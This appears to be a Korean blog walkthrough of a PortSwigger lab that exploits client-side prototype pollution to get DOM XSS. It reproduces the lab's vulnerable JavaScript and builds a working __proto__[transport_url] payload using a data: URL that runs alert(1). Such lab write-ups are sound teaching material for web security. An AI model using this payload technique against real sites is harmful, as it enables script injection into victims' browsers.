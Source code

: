 ```yaml
---
layout: post
title: "Burp Academy-Prototype Pollution 첫번째 문제:DOM XSS via client-side prototype pollution"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Prototype Pollution]
toc: true
---
```


# 개요
- 프로토타입 폴루션(Prototype Pollution, 프로토타입 오염) 취약점에 대한 문제이다. 
- 문제 주소: https://portswigger.net/web-security/prototype-pollution/finding/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution
- 프로토타입 폴루션 설명 주소: https://portswigger.net/web-security/prototype-pollutionwhat-is-prototype-pollution
- 난이도: PRACTITIONER (중간)


# 문제 분석

```
This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global Object.prototype.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you.
```

- 프로토타입 폴루션이 가능한 곳을 찾는다. 
- 페이로드를 만들어서 자바스크립트 alert 함수가 실행되도록 만든다. 
- 브라우저를 통해서 풀어도되고  `Dom Invader` 를 사용하면 더 쉬울 수도 있다. 




# 풀이
## 가능한 곳 찾기

![상품 검색](/images/burp-academy-prototype-pollution-1-2.png)

- 검색어를 입력하고 "Search" 버튼을 클릭하면 GET 요청이 발생하고 URL로 파라메터가 전달된다. 

```http
GET /?search=aaaa HTTP/1.1
Host: 0a5300b3032c5f25c2643a44000000f1.web-security-academy.net
Cookie: session=BRR4p1oZFSX1e1MEJ8r7OkjZb4KVjCFB
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close

```

그리고 다음과 같이 평범해보이는 200 응답이 회신된다. 
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 3209

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <title>DOM XSS via client-side prototype pollution</title>
    </head>
    <body>
(이하생략)
```

그리고 이 페이지를 크롬 디버거로 살펴보면 응답을 받으면 `searchLogger.js` 파일의 다음 자바스크립트가 실행되도록 되어 있다. 페이지의 `load` 이벤트에 반응하도록 되어 있어 페이지 로드가 완료되면 `searchLogger` 함수가 이어서 실행된다. 코드를 조금 분석해본다. 

- `searchLogger` 함수에서는 `deparam.js` 에 정의되어 있는 deparam 오브젝트를 생성하고 `config` 라는 변수에 저장해둔다. 
- `config` 변수에 `transport_url` 라는 속성(property)이 있다면 동적으로 script 태그를 만들고 이 태그의 `src` 속성을 `transport_url` 의 값으로 설정한다. 
- 아마도 `transport_url` 을 XSS가 가능한 페이로드로 지정하면 문제가 풀리지 않을까 한다. 

```javascript 
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```
그리고 `deparam.js` 의 코드는 대략 다음과 같다. 실제로 프로토타입 폴루션 취약점이 있는 부분이 코드 같다. URL에 지정된 파라메터의 값을 자바스크립트의 오브젝트에 무조건적으로 설정해주는 부분같다. (`__proto__` 와 같은 위험한 key가 사용되고 있는지를 체크해주는 부분이 없다.  )

![deparam.js](/images/burp-academy-prototype-pollution-1-1.png)


## 1차 시도
[XXS 페이로드 리스트](https://github.com/payloadbox/xss-payload-list){:target="_blank"} 를 보면, `<script src="javascript:alert(1)">` 페이로드가 있다. 이 것을 사용해보자. 


`?search=eeess&__proto__[transport_url]=javascript:alert(1)` 페이로드를 지정하면 script.src 의 값이 alert(1) 테스트해보았다. 

결과는 실패. alert 창이 나타나지 않았다. 흠...

크롬 디버거로 브레이크포인트를 찍어서 값을 확인해본다. params 오브젝트의 프로토타입의 속성 transport_url에 값이 지정된 것을 확인했다. 이 것으로 일단 프로토타입 폴루션자체를 성공한 것을 알 수 있다. __proto__ 키를 이용해서 오브젝트의 특정 키에 값을 주입했다. 

![프로톹타입 폴루션 확인](/images/burp-academy-prototype-pollution-1-3.png)

그런데 최종결과를 보면 다음과 같은 에러를 확인할 수 있었다. 

![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-4.png)

## 2차 시도 
페이로드에서 `javscript` 를 없애고 다음과 같이 만들었다. `?search=eeess&__proto__[transport_url]=alert(1)` 실행해보니 이번에는 404 응답 에러가 발생했다. 

그리고 이 떄 Burp Proxy 이력을 보니 다음과 같은 통신이 발생한 것을 확인했다. `<script src="alert(1)">` 이 삽입되니, `GET /alert(1)` 요청이 실행된 것이다. src에 바로 alert 코드를 쓰는 것은 답이 아닌 것 같다. 다른 페이로드를 찾아본다. 

```http
GET /alert(1) HTTP/1.1
Host: 0a1800e104c74374c2bf71be00a4002b.web-security-academy.net
Cookie: session=9YMbSxCjJHulZ7ZPfUBnGvoiWivMSkpj
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a1800e104c74374c2bf71be00a4002b.web-security-academy.net/?search=eeess&__proto__[transport_url]=alert(1)
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close
```

```
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 11

"Not Found"
```

## 3차 시도 
[XXS 페이로드 리스트](https://github.com/payloadbox/xss-payload-list){:target="_blank"} 에서 `<script src="data:text/javascript,alert(1)"></script>` 페이로드를 발견했다. 왠지 이 것을 쓰면 HTTP 통신이 발생하지 않고 script가 실행될 것 같은 예감이 든다. 테스트해본다. 

삽입된 페이로드를 브레이크 포인트로 확인해본다. `data:text/javascript,alert(1)` 이 삽입된 것을 확인했다. 브레이크 포인트를 중지하고 계속 진행시킨다. 

![삽입된 페이로드 확인](/images/burp-academy-prototype-pollution-1-5.png)

자바스크립트 실행에 성공했다! 
![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-6.png)

OK버튼을 누르면 축하한다는 메세지가 나온다. 
![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-7.png)
